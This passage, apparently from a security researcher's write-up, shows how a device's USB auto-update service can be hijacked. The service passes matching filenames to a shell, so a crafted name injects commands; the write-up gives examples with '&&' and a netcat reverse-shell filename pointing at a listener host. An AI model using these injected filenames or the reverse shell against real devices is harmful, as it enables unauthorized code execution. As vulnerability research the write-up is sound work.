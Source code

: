 ``#TODO check this...`` it definitely seems like we're on to something!

The calling code checks each file on the USB drive to see if it has a newer version available:
```
    files = `ls /mnt/usb/**/#{@platform_id}*.tar`
    files.strip().split("\n").each{ |abs_name|
        # regex to check that filename starts with r824_, ends with .tar, and has a build number
        next unless /(?<=\A#{@platform_id})(\d+)(?=\.tar)/  =~ File.basename(abs_name)

        build_num = $1

        # update if given a more recent build number
        next if build_num.chop.chop.to_i <= @current_build.to_i
        if(!latest_build_num or build_num.chop.chop.to_i > latest_build_num.chop.chop.to_i)
            latest_build_num = build_num
            latest_package_file_path = abs_name
        end
    }
```

If a new version is available, it untars the filename in a shell. Can you see where I'm going with this?

We've got a service on the device that automatically untars files that match certain conditions. It has to:

1. Match the regex ``(?<=\Ar824_)(\d+)(?=\.tar)``
1. End with ``.tar``
2. Be greater than the current build number

If the current build number is 100, this string would match ``r824_101.tar``

But it doesn't have to be an exclusive match!

This string would match:
```
r824_101.tar more_string.tar
```

And this one would too!
```
r824_101.tar && echo "hello".tar
```

By inserting a USB with a specially crafted filename, we're able to achieve code execution when the file is untarred! How can we exploit this though?

## Getting past the FAT32 filesystem

My initial instincts told me to try to open a reverse shell. Unfortunately, I couldn't just use this as the filename:

```
r824_101.tar & nc <listener ip> 1337 -e /bin/bash #.tar
```

For reasons I only realized after much trial and error, my USB drive has a FAT32 filesystem which forbids [special characters](https://en.wikipedia.org/wiki/Filename#Reserved_characters_and_words). Unix also forbids ``/`` and null-characters. 
